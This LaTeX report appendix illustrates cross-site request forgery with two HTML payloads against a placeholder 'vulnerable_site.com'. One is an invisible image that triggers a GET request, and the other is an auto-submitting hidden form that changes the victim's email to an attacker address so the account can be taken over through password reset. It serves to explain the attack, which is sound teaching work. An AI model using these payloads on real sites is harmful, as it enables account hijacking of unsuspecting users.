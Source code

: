 \documentclass[a4paper,11pt,openany]{report}
\begin{document}
\chapter{Examples of malicious HTML code} \label{app:csrf_attack}

\begin{figure}[h!t]
  \begin{verbatim}
<p>Take a look at my picture:<br />
<img src="http://vulnerable_site.com/?p=interests&action=remove&id=12" 
    width=0 height=0 /> <!-- Invisible GET request-->
<img src="http://real_image.png" alt="My image" />
  \end{verbatim}
  \caption{%
  Example of CSRF attack forging a GET HTTP request. Browser will execute the following GET request:\\
  ``GET http://vulnerable\_site.com/?p=interests\&action=remove\&id=12''\\
  This request will be totally invisible for the victim and this will remove one of his or her interest.
  }
  \label{figure:get_request}
\end{figure}

\begin{figure}[h!t]
  \begin{verbatim}
<form name="hackForm" method="POST" 
    action="http://vulnerable_site.com/?p=account&action=email">
        <input type="hidden" name="email" value="mail@attacker.com">
</form>
<script type="text/javascript">
    document.hackForm.submit(); // submit form
</script>
  \end{verbatim}
  \caption{%
  Example of CSRF attack forging a POST HTTP request. Execution of JavaScript is needed.
  This request won't be invisible for the victim but still, it will forge a request to change 
  the email of the victim in the vulnerable website. If the attacker is faster than the victim, he 
  or she can retrieve the account with the feature ``Retrieve my password''.
  }
  \label{figure:post_request}
\end{figure}
  

\chapter{Web application's screenshots} \label{app:screenshots}

\begin{figure}[ht!]
  \begin{center}
    \caption{Login page}
    \label{figure:login}
  \end{center}
\end{figure}
\end{document}
